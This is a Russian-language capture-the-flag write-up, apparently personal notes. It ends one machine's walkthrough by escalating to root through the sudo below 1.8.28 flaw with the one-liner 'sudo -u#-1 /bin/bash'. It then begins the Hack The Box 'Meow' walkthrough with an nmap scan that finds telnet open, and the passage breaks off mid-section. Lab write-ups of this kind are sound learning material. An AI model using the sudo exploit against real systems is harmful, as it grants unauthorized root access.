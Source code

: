 Наша версия sudo ниже 1.8.28, поэтому мы можем использовать эту машину. Используя найденный нами эксплойт, мы действительно можем создать корневую оболочку и получить наш корневой флаг.

```
sudo -u#-1 /bin/bash
```

![[Pasted image 20240424155912.png]]

Теперь мы root!

![[Pasted image 20240424155930.png]]

---

# Meow

**Плошадка:** https://hackthebox.com
**Уровень:** Easy
**Задача:** Найти файл **flag.txt**

## Разведка

## Сканирование

Первое, что я собираюсь сделать, это запустить **с помощью nmap .** сканирование машины.

**Nmap** означает **Network Mapper** , и он будет отправлять запросы на порты цели в надежде получить ответ, таким образом определяя, открыт указанный порт или нет. Некоторые порты по умолчанию используются определенными службами. Другие могут быть нестандартными, поэтому мы будем использовать флаг обнаружения службы **-sV** для определения имени и описания идентифицированных служб.

```bash
─$ nmap -sC -sV -oA meow 10.129.45.206
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-25 23:35 EST
Nmap scan report for 10.129.45.206
Host is up (0.052s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[Pasted image 20230703033000.png]]

После завершения сканирования мы определили, что порт **23/TCP** находится в открытом состоянии, на котором запущена служба telnet.

## Доступ к службе Telnet (Weak password)

**Telnet** — это старая служба, используемая для удаленного управления другими хостами в сети.

Чтобы установить телнет на WSL:
